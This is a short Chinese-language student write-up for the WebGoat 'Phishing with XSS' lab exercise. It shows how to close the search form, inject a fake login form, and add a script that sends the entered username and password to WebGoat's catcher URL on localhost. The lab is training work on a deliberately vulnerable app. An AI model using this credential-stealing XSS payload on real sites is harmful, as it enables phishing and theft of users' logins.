 题目完成如下（**注：在SP作业布置网站中有明确说明：development version相关内容不做要求，在XSS中涉及到的项目为：Stage2/Stage4/Stage6**）

![1715671227563](image/SP_1ab1.3&1.4&1.5_3220105114/1715671227563.png)

### Phishing with XSS

网络钓鱼，是通过将代码嵌入html中，与注入攻击类似，通过更改其语义来提交错误信息。

对于本题，先弄清楚search的内容嵌入的是一个`<form>`块，因此添加一个`<\form>`结束它，之后就可以插入想要的代码了。

1. 插入一个获取credentials的html：

```html
<form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR>
```

2. 插入一个javascript处理两个input：

```html
<script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + "Password = " + document.phish.pass.value);} </script> 
```
